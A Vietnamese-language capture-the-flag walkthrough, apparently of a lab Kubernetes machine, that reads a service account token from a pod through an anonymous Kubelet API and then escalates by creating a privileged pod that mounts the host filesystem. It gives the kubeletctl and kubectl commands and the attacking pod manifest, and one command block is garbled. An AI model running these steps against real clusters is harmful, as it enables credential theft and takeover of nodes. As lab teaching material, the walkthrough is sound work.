## Task 1


Chúng ta rà quét thì ở port 8443 có các header đáng chú ý


> Kubernetes

## Task 2


Sau khi google thì chúng ta có được endpoint để xem các pods
### 8443 — Kubernetes API Server
- Là **control plane** chính, quản lý toàn bộ cluster
- Auth nghiêm ngặt: cần certificate, token, hoặc kubeconfig
- Anonymous access thường bị **disable mặc định**
- Giống như "cổng chính" có bảo vệ
### 10250 — Kubelet API
- Là agent chạy trên **từng node**, quản lý pods trên node đó
- Auth **thường lỏng hơn** vì được xem là "internal service"
- Nhiều cấu hình mặc định cho phép anonymous access
- Giống như "cửa hậu" ít người để ý
### Tại sao Kubelet hay bị lỏng?
- Admin tập trung bảo mật API Server (8443) mà **quên Kubelet** (10250)
- Kubelet mặc định có flag `--anonymous-auth=true` trên nhiều bản cũ
- Minikube (như box này) thường để cấu hình mặc định, ít hardening
- Kubelet được thiết kế để các component nội bộ gọi, nên auth đôi khi bị tắt cho "tiện"

Chúng ta thử qua Kubelet bằng command thì nhận được kết quả
```bash
kubeletctl pods -s 
```
Chúng ta nhận được kết quả


> 8
## Task 3


Từ các thông tin trên thì tìm hiểu sâu thêm. **nginx** là pod do user deploy, nằm trong namespace `default`, và là application pod bình thường → Kubelet cho phép exec vào.

> nginx

Kiểm tra lại bằng
```bash
kubeletctl scan rce -s 10.129.96.167
```

## Task 4


### Service Account Token là gì?
Mỗi pod trong Kubernetes được tự động gán một **Service Account**. Kubernetes tự động mount token của account đó vào bên trong pod tại đường dẫn cố định:
```
/var/run/secrets/kubernetes.io/serviceaccount/
├── token      ← JWT token để authenticate với API Server
├── ca.crt     ← Certificate của cluster
└── namespace  ← Namespace hiện tại của pod
```
### Tại sao Kubernetes làm vậy?
Pod cần giao tiếp với API Server để hoạt động — ví dụ:
- Lấy config từ ConfigMap
- Đọc Secrets
- Tương tác với các pod/service khác
Token này chính là **"thẻ nhân viên"** để pod xác thực với API Server. Kubernetes mount nó tự động, developer không cần cấu hình gì.
### Vấn đề bảo mật
Đây là **misconfiguration phổ biến**:
- Mặc định **mọi pod** đều được mount token, kể cả pod không cần gọi API
- Nếu attacker RCE được vào pod → đọc token → **giả danh pod** để gọi API Server
- Token có quyền bao nhiêu tùy thuộc vào Service Account được gán
## Task 5


> hostPath

**hostPath** sẽ mount filesystem từ host
## User&Root Flag
Chúng ta lấy token từ nginx pods
```bash
kubeletctl --server 10.129.96.167 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx
kubeletctl --server 10.129.96.167 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx

export TOKEN="aaaaa..xxx"
kubectl --token=$TOKEN --certificate-authority=ca.crt --server=https://10.129.96.167:8443 get pods
```
Lúc này chúng ta đã xác thực thành công

Bây giờ kiểm tra thử token này có thể làm gì
```bash
kubectl --token=$TOKEN --certificate-authority=ca.crt --server=https://10.129.96.167:8443 auth can-i --list
```


Token này có quyền khá thú vị:
**`pods` → `get`, `create`, `list`**
Không đọc được secrets trực tiếp, nhưng **create pods** là đủ để leo quyền. Chúng ta có thể tạo một pod mới mount filesystem của node (host) vào trong container.

Tạo file `evil-pod.yaml`:
```yml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
  namespace: default
spec:
  containers:
  - name: attacker
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /mnt/root
      name: host-fs
  volumes:
  - name: host-fs
    hostPath:
      path: /
      type: Directory
```
Chúng ta khởi tạo container 
```bash
kubectl --token=$TOKEN --certificate-authority=ca.crt --server=https://10.129.96

kubectl --token=$TOKEN --certificate-authority=ca.crt --server=https://10.129.96.167:8443 get pods.167:8443 apply -f evil-pod.yml
```


Tiến hành đọc Flag
```bash
# User flag
kubeletctl exec "cat /mnt/root/home/user/user.txt" -p attacker-pod -c attacker -s 10.129.96.167

# Root flag
kubeletctl exec "cat /mnt/root/root/root.txt" -p attacker-pod -c attacker -s 10.129.96.167
```
